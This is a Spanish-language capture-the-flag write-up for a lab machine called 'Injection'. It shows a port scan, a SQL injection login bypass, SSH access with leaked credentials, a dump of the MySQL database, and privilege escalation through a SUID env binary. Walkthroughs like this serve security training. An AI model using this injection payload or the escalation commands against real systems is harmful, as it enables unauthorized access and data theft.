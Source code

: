 Nombre de la máquina: Injection
Dificultad: Muy fácil 
Tiempo: 1 hora


Empezamos con un escaneo normal:

`
nmap 172.17.0.3
`

En el que obtenemos como respuesta que los puertos 22/TCP y 80/TCP están abiertos. 

Al tener esta información, podemos ser ya un poco más especificos e intentar obtener más datos que nos puedan ayudar:

`
nmap 172.17.0.3 -sV -p 22,80
`

Obtenemos como respuesta:
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))


Como en el puerto 80/TCP está corriendo una página web, probaremos a poner en nuestro navegador 172.17.0.3 para ver que tipo de página es. 
La web que está alojando Apache es una página de login, como la máquina se llama Injection, suponemos que será algo relacionado con SQLInjection y probaremos a introducir en el campo del nombre " admin' or 1=1; " y la contraseña cualquier cosa. 

Con eso hemos conseguido acceder y visualizar el siguiente mensaje:

`Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78`

Tenemos un nombre de usuario (Dylan) y un código (KJSDFG789FGSDF78) que puede ser una contraseña. Probamos a conectarnos por ssh con esas credenciales:

`
ssh dylan@172.17.0.3 
` 

El acceso fue exitoso. Ya estamos dentro de la máquina. Con sudo -l obtuve una respuesta de que el comando no existía asi que no se me ocurría una forma de poder escalar privilegios, estuve explorando las carpetas de ssh y tampoco encontré nada. Sin embargo, en las carpetas del servidor web, /var/www/html haciendo un cat del archivo config.php:

`
return [
        'db' => [
                'host' => 'localhost',
                'user' => 'root',
                'passwd' => 'paso',
                'dbname' => 'register',
                'options' => [
                        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION
                ]
        ]
];
`


Intentaremos conectarnos con mysql utilizando esas credenciales:
`
mysql -u root -ppaso
`

Hacemos un:
`
show databases;
 use register;
 select * from users;
 ` 
Aunque ya sabemos que existe una base de datos llamada register, pues aparece en config.php, obtenemos:
`
+----------+------------------+
| username | passwd           |
+----------+------------------+
| dylan    | KJSDFG789FGSDF78 |
+----------+------------------+
` 

Era información que ya teniamos, pero probaremos lo siguiente:
`
INSERT INTO users VALUES ('prueba','123456');
INSERT INTO users VALUES ('prueba','123456');
DELETE FROM users WHERE username='prueba1';
`
Todas las consultas fueron exitosas, por lo que podemos decir que tenemos control sobre esa base de datos, pues podemos crear y eliminar los que queramos. Al igual que hacer un:
`
mysqldump --databases register -u root -ppaso > datos.sql
`
Para obtener los datos.

Aunque aún no fuimos capaces de escalar privilegios en la máquina. 


`find / -perm -4000 -user root 2>/dev/null`

`/usr/bin/env /bin/bash -p`











